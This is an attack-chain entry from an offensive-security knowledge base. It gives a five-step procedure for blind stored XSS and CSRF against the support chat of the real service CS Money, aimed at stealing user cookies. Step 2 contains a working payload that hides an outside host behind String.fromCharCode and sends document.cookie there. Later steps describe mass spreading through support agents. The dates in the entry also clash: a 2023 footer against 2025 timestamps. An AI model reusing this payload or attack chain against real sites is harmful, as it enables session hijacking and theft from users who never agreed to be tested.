

---
tags:
  - xss
  - stored-xss
  - blind-xss
  - csrf
  - web
  - cookie-theft
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/Online-String-Tools]]'
tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
  - '[[Collection]]'
commands: []
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Intercept-Upload-Request-with-Proxy]]'
  - '[[procedures/Inject-XSS-Payload-into-Filename]]'
  - '[[procedures/Trigger-XSS-via-Chat-Upload]]'
  - '[[procedures/Exploit-CSRF-for-Unauthorized-Upload]]'
  - '[[procedures/Mass-Exploit-XSS-via-Support-Agents]]'
step_count: 5
techniques:
  - '[[JavaScript]]'
  - '[[Exploit Public-Facing Application]]'
description: >-
  Multi-stage attack exploiting blind stored XSS and CSRF in CS Money's support
  chat to inject malicious JavaScript and steal user cookies
skill_level: intermediate
impact_level: high
id: 0b0e3a55-ac1b-4aa5-8e7f-c4a0a5e711f6
created_at: '2025-12-11T06:10:15.982Z'
updated_at: '2025-12-11T06:10:15.982Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0002]]'
  - '[[TA0001]]'
  - '[[TA0009]]'
mitre_techniques:
  - '[[T1059.007]]'
  - '[[T1190]]'
---
# Blind Stored XSS via Image Upload in CS Money Support Chat for Cookie Theft

Multi-stage attack chain demonstrating a complete workflow for exploiting a blind stored XSS vulnerability in CS Money's support chat image upload feature, combined with CSRF, to inject malicious JavaScript and steal cookies from multiple users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Online-String-Tools]]

### Target Environment

- Web platform
- Support chat on support.cs.money
- Open ports: Standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- Access to the CS Money support chat
- Ability to upload images via the support interface
- No prior credentials needed beyond user access

## Detailed Attack Procedures

### Step 1: Intercept Upload Request - [[procedures/Intercept-Upload-Request-with-Proxy]]

**Objective**: Capture the file upload request to modify parameters for injection.

**Expected Output**: Intercepted HTTP request to support.cs.money/upload_file.

**Success Indicators**:
- Request is captured in Burp Suite.
- Filename parameter is visible and editable.

Set up Burp Suite with intercept turned on to capture the upload request to support.cs.money/upload_file.

### Step 2: Inject XSS Payload - [[procedures/Inject-XSS-Payload-into-Filename]]

**Objective**: Modify the filename to include a malicious XSS payload for execution in the chat.

**Expected Output**: Modified request with injected JavaScript payload.

**Success Indicators**:
- Payload is successfully injected without sanitization errors.
- Request is forwarded successfully.

Use Burp Suite to change the filename to a payload like \"><img src=1 onerror=\"url=String.fromCharCode(104,116,116,112,115,58,47,47,103,97,116,111,108,111,117,99,111,46,48,48,48,119,101,98,104,111,115,116,97,112,112,46,99,111,109,47,99,115,109,111,110,101,121,47,105,110,100,101,120,46,112,104,112,63,116,111,107,101,110,115,61)+encodeURIComponent(document.cookie);xhttp=new XMLHttpRequest();xhttp.open('GET',url,true);xhttp.send();\".

### Step 3: Trigger XSS via Chat - [[procedures/Trigger-XSS-via-Chat-Upload]]

**Objective**: Upload the file and open the chat to execute the injected JavaScript.

**Expected Output**: JavaScript execution in the browser, potentially exfiltrating cookies.

**Success Indicators**:
- Chat opens and payload triggers.
- Cookies are sent to the attacker's server.

After forwarding the modified request, open the support chat to activate the injected JavaScript.

### Step 4: Exploit CSRF for Upload - [[procedures/Exploit-CSRF-for-Unauthorized-Upload]]

**Objective**: Create a form to upload malicious files without user interaction.

**Expected Output**: Successful CSRF-induced upload.

**Success Indicators**:
- Form submission triggers upload.
- No CSRF protections block the request.

Create an HTML form on a server that posts to upload_file with the malicious filename, tricking users into submitting it.

### Step 5: Mass Exploitation - [[procedures/Mass-Exploit-XSS-via-Support-Agents]]

**Objective**: Leverage support agents to distribute the XSS payload to multiple users.

**Expected Output**: Widespread execution of XSS across user sessions.

**Success Indicators**:
- Payload propagates via support responses.
- Multiple cookie exfiltrations occur.

Inject XSS into support chat, allowing payloads to be sent to multiple users without CSRF by leveraging support responses.

## Attack Chain Summary

### Key Achievements

1. Successful injection of blind stored XSS via unsanitized filename.
2. CSRF exploitation for unauthorized uploads.
3. Mass distribution leading to potential cookie theft from thousands of users.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]
- [[Collection]]

*Last updated: 2023-10-01*
